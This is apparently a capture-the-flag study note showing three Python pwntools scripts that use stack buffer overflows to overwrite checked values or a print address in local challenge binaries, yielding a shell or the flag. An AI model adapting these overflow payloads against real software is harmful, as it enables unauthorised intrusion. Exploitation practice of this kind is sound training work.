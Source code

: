 # Overwrite a Stack Value

Examples of simple buffer owverflows to edit a stack value and get a shell or flag  

---

A check is made to see if a stack value has changed after our input is received  

```python3
#!/usr/bin/env python3
from pwn import *

context.log_level="debug"
io = process("./boi")

offset = b"A" * 20              # Offset to the target value
value = b"\xee\xba\xf3\xca"     # New value to be set
payload = offset + value        # create the payload
io.recv()                       # Run the program and receive lines
io.send(payload)                # Send the payload
io.interactive()                # Interact with the shell
```

---

Same principal as above  

```python3
from pwn import *

context.log_level="debug"
io = process("./pwn1")

# What is your name?
io.sendline(b"Sir Lancelot of Camelot")

# What is your quest?

io.sendline(b"To seek the Holy Grail.")

# What is your secret
payload = b"A" * 43 + b"\xc8\x10\xa1\xde"
io.sendline(payload)

# Win
io.recv()
```

---

The flag is read from a file and stored on the stack. We can overwrite the address that is called to print to the screen  

```python3
from pwn import *

# RET2 Flag location
# Flag at 0x804a080

context.log_level="debug"
io = process("./just_do_it")

# payload = b"P@SSW0RD\x00"
junk = b"\x00" * 20
addr = p32(0x804a080)
payload = junk + addr
io.sendline(payload)

# Win
io.interactive()
```
